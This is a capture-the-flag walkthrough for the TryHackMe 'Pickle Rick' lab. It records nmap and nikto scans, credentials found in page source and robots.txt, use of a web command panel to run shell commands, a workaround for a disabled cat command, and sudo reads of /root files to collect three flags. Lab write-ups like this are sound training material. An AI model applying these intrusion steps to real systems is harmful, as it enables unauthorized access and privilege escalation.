 # Pickle Rick @TryHackMe.com

### Difficulty: EASY

### Keywords and tools: nmap, nikto, dirb, directory traversal


#ping the target (target IP will be given after you've joined the room)

'ping 10.10.102.120'

PING 10.10.102.120 (10.10.102.120) 56(84) bytes of data.
64 bytes from 10.10.102.120: icmp_seq=1 ttl=63 time=49.4 ms
64 bytes from 10.10.102.120: icmp_seq=2 ttl=63 time=50.7 ms

#nmap scan

sudo nmap -sV -n -v -Pn -p- -T4 -A 10.10.102.120

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:68:bd:7f:44:89:05:be:36:ef:62:91:91:3c:8b:f3 (RSA)
|   256 f3:57:4b:4d:59:dd:42:6e:01:d9:b6:7e:8b:d5:72:8b (ECDSA)
|_  256 3a:9e:61:c3:73:1a:f0:4c:de:a3:39:79:d5:b5:f3:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool


#connect to web app with Firefox
#inspect the page source 

<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->


#Check /robots.txt
Wubbalubbadubdub

#Maybe a password?
#Let's try ssh.


ssh R1ckRul3s@10.10.102.120
R1ckRul3s@10.10.102.120: Permission denied (publickey).

#No success. Will need ssh key.
  
  

#scan the target for possibly hidden content with dirb
dirb http://10.10.102.120/

#nothing special found, lets try nikto
nikto -h 10.10.102.120

#nikto found an /login.php page, lets see it and try to login

username: R1ckRul3s
password: Wubbalubbadubdub

#we get a command panel with a command execution box, lets try typing 'whoami'
www-data
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

cat Sup3rS3cretPickl3Ingred.txt
Command disabled

#open the page with Firefox: http://10.10.102.120/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair

#and we have our first flag


#open the http://10.10.102.120/clue.txt
Look around the file system for the other ingredient.

#lets try directory traversal
cd ../../../../; ls

#works, lets explore home

cd /home; ls
cd /home/rick; ls

#we see 'second ingredients', and since cat-command is disabled, lets try 'less'

less /home/rick/"second ingredients"
jerry tear

#now we got our second flag


#lets see if we have sudo

sudo ls /root;
sudo less /root/3rd.txt

3rd ingredients: fleeb juice

#we got all 3 flags.
